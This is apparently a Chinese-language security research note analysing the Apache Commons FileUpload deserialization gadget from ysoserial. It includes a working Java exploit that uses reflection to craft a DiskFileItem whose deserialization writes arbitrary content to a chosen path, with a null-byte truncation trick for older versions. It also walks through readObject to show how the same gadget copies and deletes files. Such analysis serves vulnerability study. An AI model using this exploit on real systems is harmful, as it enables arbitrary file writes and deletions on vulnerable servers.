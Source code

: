# FileUpload

FileUpload是Apache提供的上传组件，它本身依赖于commos-io组件,ysoserial中利用了这个组件来任意写、读文件或者目录，但是具体是怎么操作还是和jdk版本有关。

## exp

```java
package dem0.deserialization.FileUpload;

import org.apache.commons.fileupload.disk.DiskFileItem;
import org.apache.commons.io.output.DeferredFileOutputStream;
import ysoserial.Deserializer;
import ysoserial.Serializer;

import java.io.File;
import java.lang.reflect.Field;

public class Exp1 {
    public static void main(String[] args) throws Exception {
        // 创建文件写入目录 File 对象，以及文件写入内容
        String charset = "UTF-8";
        byte[] bytes   = "hahaha".getBytes(charset);

        // 在 1.3 版本以下，可以使用 \0 截断
        File repository = new File("./123.txt/../");

        // 在 1.3.1 及以上，只能指定目录
//		File   repository = new File("/Users/phoebe/Downloads");

        // 创建 dfos 对象
        DeferredFileOutputStream dfos = new DeferredFileOutputStream(0, repository);

        // 使用 repository 初始化反序列化的 DiskFileItem 对象
        DiskFileItem diskFileItem = new DiskFileItem(null, null, false, null, 0, repository);

        // 序列化时 writeObject 要求 dfos 不能为 null
        Field dfosFile = DiskFileItem.class.getDeclaredField("dfos");
        dfosFile.setAccessible(true);
        dfosFile.set(diskFileItem, dfos);

        // 反射将 cachedContent 写入
        Field field2 = DiskFileItem.class.getDeclaredField("cachedContent");
        field2.setAccessible(true);
        field2.set(diskFileItem, bytes);
        byte[] serialize = Serializer.serialize(diskFileItem);
        Deserializer.deserialize(serialize);
    }
}

```



## 分析

## DiskFileItem

org.apache.commons.fileupload.FileItem表示在POST请求中接收到的文件或者表单项。而`DiskFileItem`是这个的实现类，用来封装一个请求消息实体中的全部项目，在`FileUploadBase#parseRequest`解析时进行封装，动作，动作由 DiskFileItemFactory 的 `createItem` 方法来完成。

![image-20220515094557881](https://img.dem0dem0.top/images/image-20220515094557881.png)

他这里自己重新实现了自己的逻辑，用于在JVM之间迁移HTTP会话，在不同机器中文件存储文件reposity不同。

```java
 private void readObject(ObjectInputStream in)
            throws IOException, ClassNotFoundException {
        // read values
        in.defaultReadObject();

        OutputStream output = getOutputStream();
        if (cachedContent != null) {
            output.write(cachedContent);
        } else {
            FileInputStream input = new FileInputStream(dfosFile);
            IOUtils.copy(input, output);
            dfosFile.delete();
            dfosFile = null;
        }
        output.close();

        cachedContent = null;
    }
```

其实也不难理解，就是这个类在反序列化的时候有对文件的操作，而我们可以控制他的属性，从而来达到文件的操作。

![image-20220515095751793](https://img.dem0dem0.top/images/image-20220515095751793.png)

这里的cachedContent==NULL，可以实现文件复制和删除。